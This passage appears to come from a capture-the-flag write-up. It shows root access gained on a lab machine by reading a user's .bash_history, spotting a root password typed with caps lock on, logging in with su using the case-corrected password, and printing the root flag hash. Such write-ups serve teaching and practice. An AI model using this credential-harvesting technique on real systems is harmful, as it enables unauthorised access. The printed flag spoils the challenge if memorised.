 1. Check files in the /home/help (__~/__) directory:
   ```console
   cat .bash_history
   # ...
   # su
   # su
   # rOOTmEoRdIE
   # su
   # ...
   
   su root
   # Password: RootMeOrDie
   
   id
   # uid=0(root) gid=0(root) groups=0(root)
 
   cat /root/root.txt
   # b7fe6082dcdf0c1b1e02ab0d9daddb98
   ```
   __NOTE(S)__:
   - There seems to be an apparent attempt to use `su`
   - "__rOOTmEoRdIE__" doesn't work to authenticate __root__
     - Maybe it was entered with CAPS LOCK on
     - "__RootMeOrDie__" works

